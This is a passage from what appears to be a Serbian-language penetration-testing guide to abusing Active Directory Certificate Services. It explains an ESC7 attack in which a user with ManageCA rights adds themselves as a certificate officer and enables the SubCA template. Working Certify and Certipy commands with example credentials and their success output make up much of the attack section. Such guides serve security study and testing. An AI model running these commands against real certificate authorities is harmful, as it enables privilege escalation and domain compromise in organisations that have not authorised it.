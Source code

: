 ```powershell
Certify.exe download /ca:dc.domain.local\theshire-DC-CA /id:336
```

### Napad 2

#### Objašnjenje

{% hint style="warning" %}
U **prethodnom napadu** su korišćene dozvole **`Manage CA`** da bi se omogućila zastavica **EDITF\_ATTRIBUTESUBJECTALTNAME2** za izvođenje napada **ESC6**, ali ovo neće imati nikakav efekat dok god usluga CA (`CertSvc`) ne bude restartovana. Kada korisnik ima pravo pristupa `Manage CA`, korisniku je takođe dozvoljeno da **restartuje uslugu**. Međutim, to **ne znači da korisnik može da restartuje uslugu udaljeno**. Osim toga, **ESC6 možda neće raditi odmah** u većini ažuriranih okruženja zbog bezbednosnih ažuriranja iz maja 2022. godine.
{% endhint %}

Zbog toga je ovde predstavljen još jedan napad.

Preduslovi:

* Samo **`ManageCA` dozvola**
* **`Manage Certificates`** dozvola (može se dodeliti iz **`ManageCA`**)
* Šablon sertifikata **`SubCA`** mora biti **omogućen** (može se omogućiti iz **`ManageCA`**)

Tehnika se oslanja na činjenicu da korisnici sa pravom pristupa `Manage CA` _i_ `Manage Certificates` mogu **izdati neuspele zahteve za sertifikatima**. Šablon sertifikata **`SubCA`** je **ranjiv na ESC1**, ali **samo administratori** mogu se upisati u šablon. Dakle, **korisnik** može **zatražiti** upis u **`SubCA`** - što će biti **odbijeno** - ali će **kasnije biti izdato od strane menadžera**.

#### Zloupotreba

Možete **dodeliti sebi pravo pristupa `Manage Certificates`** dodavanjem vašeg korisnika kao novog službenika.

```bash
certipy ca -ca 'corp-DC-CA' -add-officer john -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully added officer 'John' on 'corp-DC-CA'
```

**`SubCA`** šablon se može **omogućiti na CA** pomoću parametra `-enable-template`. Podrazumevano, `SubCA` šablon je omogućen.

```bash
# List templates
certipy ca -username john@corp.local -password Passw0rd! -target-ip ca.corp.local -ca 'corp-CA' -enable-template 'SubCA'
## If SubCA is not there, you need to enable it

# Enable SubCA
certipy ca -ca 'corp-DC-CA' -enable-template SubCA -username john@corp.local -password Passw0rd
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Successfully enabled 'SubCA' on 'corp-DC-CA'
```
